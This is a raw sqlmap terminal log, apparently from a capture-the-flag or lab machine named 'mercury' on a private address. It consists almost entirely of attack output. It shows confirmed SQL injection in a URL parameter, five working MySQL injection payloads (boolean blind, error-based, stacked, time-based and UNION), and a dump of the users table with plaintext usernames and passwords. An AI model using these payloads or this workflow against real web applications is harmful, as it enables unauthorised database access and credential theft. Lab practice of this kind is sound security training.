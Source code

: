 ```
[21:18:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:18:48] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:18:48] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[21:18:49] [INFO] target URL appears to have 1 column in query
[21:18:49] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://192.168.56.110:8080/mercuryfacts/1 AND 1707=1707

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://192.168.56.110:8080/mercuryfacts/1 AND GTID_SUBSET(CONCAT(0x7178707a71,(SELECT (ELT(1040=1040,1))),0x717a707a71),1040)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://192.168.56.110:8080/mercuryfacts/1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.56.110:8080/mercuryfacts/1 AND (SELECT 3354 FROM (SELECT(SLEEP(5)))gHQm)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://192.168.56.110:8080/mercuryfacts/1 UNION ALL SELECT CONCAT(0x7178707a71,0x417053716270486d4d6b464b6a4e414748507778494d79524e6768576d5a69766d58505250415273,0x717a707a71)-- -
---
[21:18:55] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[21:18:55] [INFO] fetching columns for table 'users' in database 'mercury'
[21:18:55] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+

[21:18:55] [INFO] table 'mercury.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.56.110/dump/mercury/users.csv'                                                                                                   
[21:18:55] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.110'

[*] ending @ 21:18:55 /2024-09-29/
```
